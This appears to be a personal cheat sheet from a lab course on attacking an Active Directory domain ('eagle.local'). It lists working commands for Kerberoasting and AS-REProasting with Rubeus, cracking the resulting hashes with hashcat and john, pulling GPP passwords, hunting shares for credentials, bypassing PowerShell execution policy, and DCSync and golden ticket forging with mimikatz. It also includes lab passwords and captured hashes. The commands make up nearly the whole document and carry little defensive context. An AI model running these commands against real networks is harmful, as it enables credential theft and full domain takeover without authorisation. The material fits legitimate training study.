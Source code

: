 



# Introduction

## Connect to WS001 via RDP

```
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
```
#xfreerdp 
## Connect to Kali via SSH

```
 ssh kali@TARGET_IP
```
#ssh 
## Moving files between WS001 and your Linux attacking machine

```
smbclient \\\\TARGET_IP\\Share -U eagle/administrator%Slavi123
```
#smbclient 

# kerberoasting

```c
PS C:\Users\bob\Downloads> .\Rubeus.exe kerberoast /outfile:spn.txt
```
#rubeus #powershell 

```
$ hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```
#hashcat 


```
$ sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot
```
#john 


# AS-REProasting

```C
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt
```
#rubeus #powershell 
For `hashcat` to be able to recognize the hash, we need to edit it by adding `23$` after `$krb5asrep$`:

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```



```
$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force
```
#hashcat 



# GPP Passwords

	Used to bypass powershell script execution policy.
```C
PS C:\Users\bob\Downloads> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```
#powershell #set-executionpolicy


```C
PS C:\Users\bob\Downloads> Import-Module .\Get-GPPPassword.ps1
PS C:\Users\bob\Downloads> Get-GPPPassword
```
#powershell #import-module #gppassword



# Credentials in Shares

	Used to load the `PowerView.ps1` module into memory
```
Import-Module .\PowerView.ps1
```
#powershell  #powerview

		This function allows specifying that default shares should be filtered out (such as `c$` and `IPC$`) and also check if the invoking user has access to the rest of the shares it finds.
```
Invoke-ShareFinder -domain eagle.local -ExcludeStandard -CheckShareAccess
```
#powershell #shares

```
cd \\Server01.eagle.local\dev$
```


```c
findstr /m /s /i "pass" *.bat
```
#findstr 


# Credentials in Object Properties

	Script to look for specific terms in the `Description` and `Info` fields of an AD object
```
.\SearchUser.ps1 -Terms pass
```
#powershell #searchuser



# DCSync



```
runas /user:eagle\rocky cmd.exe
```
#runas

```
mimikatz.exe lsadump::dcsync /domain:eagle.local /user:Administrator
```
#mimikatz #dcsync #lsa 



# Golden Ticket


```
mimikatz.exe lsadump::dcsync /domain:eagle.local /user:krbtgt
```
#mimikatz #lsa #dcsync 


```powershell-session
 powershell -exec bypass
```
#powershell #bypass

```
. .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
```
#powerview 


```
mimikatz.exe 
kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```
#mimikatz #golden_ticket 


```
klist
```
#klist

```c
C:\Mimikatz>dir \\dc1\c$
```
#dir
